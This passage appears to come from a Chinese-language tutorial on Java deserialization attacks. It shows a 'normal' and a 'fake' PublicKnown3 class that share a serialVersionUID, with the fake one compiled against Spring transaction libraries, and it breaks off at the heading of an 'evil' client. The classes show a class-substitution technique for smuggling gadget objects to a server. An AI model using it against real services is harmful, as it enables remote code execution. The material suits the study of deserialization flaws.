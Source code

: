 ```java
        String          resp    = some.Echo( new Message3( sth ) );
        System.out.println( resp );
    }
}
```

13.6) normal版PublicKnown3.java

```java
/*
 * javac -encoding GBK -g normal/PublicKnown3.java
 */
package other;

import java.io.*;

/*
 * normal版PublicKnown3
 */
public class PublicKnown3 implements Serializable
{
    private static final long   serialVersionUID    = 0x5120131473637a02L;

    private void readObject ( ObjectInputStream ois )
        throws IOException, ClassNotFoundException
    {
        System.out.println( "PublicKnown3.readObject()" );
        ois.defaultReadObject();
    }
}
```

13.7) fake版PublicKnown3.java

```java
/*
 * javac -encoding GBK -g -cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:." fake/PublicKnown3.java
 */
package other;

import any.Message3;

/*
 * fake版PublicKnown3
 */
public class PublicKnown3 extends Message3
{
    private static final long   serialVersionUID    = 0x5120131473637a02L;
}
```

13.8) SomeEvilClient3.java
